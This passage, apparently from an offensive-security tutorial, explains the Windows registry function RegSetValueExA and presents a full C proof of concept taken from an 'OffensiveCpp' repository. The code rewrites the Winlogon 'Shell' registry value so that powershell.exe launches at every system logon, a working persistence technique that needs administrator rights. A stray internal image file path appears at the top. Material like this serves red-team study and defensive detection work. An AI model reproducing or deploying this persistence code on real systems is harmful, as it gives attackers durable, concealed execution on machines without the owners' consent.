 and [RegSetValueExA](https://learn.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)

```C
LSTATUS RegSetValueExA(
  [in]           HKEY       hKey,
  [in, optional] LPCSTR     lpValueName,
                 DWORD      Reserved,
  [in]           DWORD      dwType,
  [in]           const BYTE *lpData,
  [in]           DWORD      cbData
);
```

These functions allow us to open a registry hive, and modify its values if, of course, we have the appropriate privileges over the system.

I came up with the following POC code, which is already added into the [OffensiveCpp](https://github.com/lsecqt/OffensiveCpp/blob/main/Techniques/Persistence/admin_persistence_winlogon.c) project.

```C
#include <windows.h>
#include <stdio.h>

// This POC executes powershell.exe on system logon
// It requires administrative privileges
// https://youtu.be/VqDY2Tfz6Qw?t=20

int main() {
    HKEY hKey;
    LPCSTR subKey = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon";
    LPCSTR valueName = "Shell";
    LPCSTR newValue = "explorer.exe,powershell.exe";

    LONG openResult = RegOpenKeyExA(HKEY_LOCAL_MACHINE, subKey, 0, KEY_SET_VALUE, &hKey);
    if (openResult != ERROR_SUCCESS) {
        printf("Error opening registry key. Error code: %d\n", openResult);
        return 1;
    }

    LONG setResult = RegSetValueExA(hKey, valueName, 0, REG_SZ, (BYTE*)newValue, strlen(newValue) + 1);
    if (setResult != ERROR_SUCCESS) {
        printf("Error setting registry value. Error code: %d\n", setResult);
        RegCloseKey(hKey);
        return 1;
    }

    printf("Registry value changed successfully.\n");

    RegCloseKey(hKey);
    return 0;
}
```
